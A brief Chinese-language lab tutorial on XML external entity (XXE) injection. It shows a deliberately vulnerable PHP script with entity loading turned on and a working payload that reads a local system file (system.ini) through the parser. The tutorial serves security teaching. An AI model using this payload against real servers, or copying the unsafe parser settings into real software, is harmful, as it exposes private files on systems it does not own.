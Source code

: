 # 案列一：有回显读本地敏感文件(Normal XXE)

这个实验的攻击场景模拟的是在服务能接收并解析 XML 格式的输入并且有回显的时候，我们就能输入我们自定义的 XML 代码，通过引用外部实体的方法，引用服务器上面的文件

本地服务器上放上解析 XML 的 php 代码：

示例代码：

xml.php

```
<?php

    libxml_disable_entity_loader (false);
    $xmlfile = file_get_contents('php://input');
    $dom = new DOMDocument();
    $dom->loadXML($xmlfile, LIBXML_NOENT | LIBXML_DTDLOAD); 
    $creds = simplexml_import_dom($dom);
    echo $creds;

?>
```

payload:

```
<?xml version="1.0" encoding="utf-8"?> 
<!DOCTYPE creds [  
<!ENTITY goodies SYSTEM "file:///c:/windows/system.ini"> ]> 
<creds>&goodies;</creds>
```

![image.png](http://ww1.sinaimg.cn/large/007bHQE8gy1g7xwo9c5btj30qk0kdjt4.jpg)

成功读取到目标系统的`system.ini `


